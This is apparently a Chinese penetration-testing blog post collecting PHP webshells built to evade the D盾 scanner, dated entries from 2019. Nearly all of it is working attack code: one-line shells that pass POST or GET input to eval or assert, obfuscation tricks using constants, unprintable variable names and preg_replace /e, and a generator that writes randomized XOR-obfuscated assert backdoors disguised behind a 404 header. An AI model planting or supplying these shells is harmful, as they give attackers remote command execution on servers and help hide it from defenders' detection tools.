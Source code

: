 ```yaml
---
title: "PHP Webshell Bypass"
date: 2019-08-12T21:10:02+08:00
lastmod: 2019-08-12T21:57:02+08:00
draft: false
tags: ['bypass']
categories: ['渗透测试']
comment: true
---
```


准备写一个长期更新的免杀webshell总结

<!--more-->

2019-08-15

https://evi1.cn/post/bypass-shell/

```php
<?php
$a = $_POST['cmd'];
$var = "phpnb {${eval($a)}}";
```

2019-08-12

![20190812215816](https://y4er.com/img/uploads/20190812215816.png)

2019-08-09

疯狂免杀

![20190809144327](https://y4er.com/img/uploads/20190809144327.png)

2019-08-07

```php
<?php
function a()
{
    return '' + @$_POST['a'];
}

eval(a());
```

再来一个三元表达式的

![20190807111622](https://y4er.com/img/uploads/20190807111622.png)

2019-08-06

常量过D盾

https://secquan.org/Notes/1069997

```php
<?php
sprintf("123");
sprintf("123");
sprintf("123");
$a=$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```



另一种思路反序列化过D盾，代码自己写

再一种思路 创建对象重复定义变量成员过D盾

2019-05-30

ASCII码显示不出来的字符做变量过D盾

<https://github.com/th1k404/unishell>

<http://ascii.911cha.com/>

```php
<?php
if($_GET['␄']){
    $␄=$_GET['␄'];
    @preg_replace("/abcde/e",$␄, "abcdefg");
}
?>
```

可以自己修改

2019-05-21

<https://github.com/yzddmr6/webshell-venom>

利用随机异或无限免杀d盾

蚁剑插件版请移步:

<https://github.com/yzddmr6/as_webshell_venom>

```php
<?php
//code by Mr6
error_reporting(0);
	function randomkeys($length)   
{   
   $pattern = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        $key[$i]= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
}   
	function randname($length)   
{   
   $pattern = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        @$key.= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
} 
	$str=randomkeys(6); 
	$bname=randname(4);
	$lname=strrev(strtolower($bname));
	$str2="assert";
			echo "<?php \n";
			echo "header('HTTP/1.1 404');\n";
			echo "class  ".$bname."{ public \$c='';\nfunction __destruct(){\n";
	for ($i=0;$i<6;$i++)
	{
		$name="_".$i;
		$str3[$i]=bin2hex($str[$i] ^$str2[$i]);
		echo "$"."$name=";
	echo "'".$str[$i]."'"."^"."\"\\x".$str3[$i]."\";\n";
	}
	$aa='$db=$_0.$_1.$_2.$_3.$_4.$_5;';
	echo $aa;
	echo "\n";
	echo '@$db ("$this->c");}}';
	echo "\n";
	echo "\${$lname}=new {$bname}();\n";
	echo "@\${$lname}->c=\$_POST['Mr6'];\n";
	echo "?>\n";
	@$file=$_GET['file'];
	$html = ob_get_contents();
	if (isset($file)){
	if(file_put_contents($file,$html))
	echo "\n\n\n".$file."   save success!";}
	else {echo "Please input the file name like '?file=xxx.txt'";}
	?>
```



2019-05-11

```php
<?php
function a(){
	return $a=$_POST['1'];
}
@assert(a());
?>
```

![](https://y4er.com/img/uploads/20190511171755.png)

```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
	assert($value);
}
```
![](https://y4er.com/img/uploads/20190511183608.png)
**可以发现的规律是当已经定义的变量和循环的变量名一致时，D盾就不是那么敏感了**